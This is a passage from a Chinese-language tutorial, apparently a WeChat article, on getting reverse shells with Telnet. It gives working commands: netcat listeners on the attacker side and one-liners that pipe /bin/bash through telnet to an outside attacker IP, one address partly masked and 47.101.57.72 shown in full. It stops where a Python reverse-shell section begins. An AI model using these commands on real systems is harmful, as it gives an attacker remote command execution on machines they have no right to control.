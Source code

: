 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NQwFicQDibYk3GgHhMjPqcchia1libS8qp2bico1bCPxQxTlxRBvYfMfW9IA/640?wx_fmt=png)

利用 Telnet 反弹 shell
------------------

当 nc 和 / dev/tcp 不可用，且目标主机和攻击机上支持 Telnet 服务时，我们可以使用 Telnet 反弹 shell。

### 方法一

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```
mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a
```

执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NEXVFuLwKYPeN3VBxlEyW8nHWgrbhu8V3fcdRibhSfV8fk5pOY5YlNVg/640?wx_fmt=png)

### 方法二

**攻击机需要开启两个本地监听：**

```
nc -lvvp 2333nc -lvvp 4000
```

**目标机主动连接攻击机：**

```
telnet 47.101.57.72 2333 | /bin/bash | telnet 47.101.57.72 4000
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3N9P90SDwdsibXGDVAG6Rb3icJfpXmibM9zRSKfLjA5v9GwbJGXYzDwG3kg/640?wx_fmt=png)

如上图所示，获得 shell 后，在攻击机 2333 端口的终端上输入的命令会在目标机上执行，执行的回显将通过 4000 端口的终端显示出来。

各种脚本反弹 shell
------------

### Python 脚本反弹 shell

当目标主机上有 python 环境时，我们可以用 Python 来反弹 shell。Python 在现在一般发行版 Linux 系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

**攻击机开启本地监听：**

```
nc -lvvp 2333
```

**目标机主动连接攻击机：**
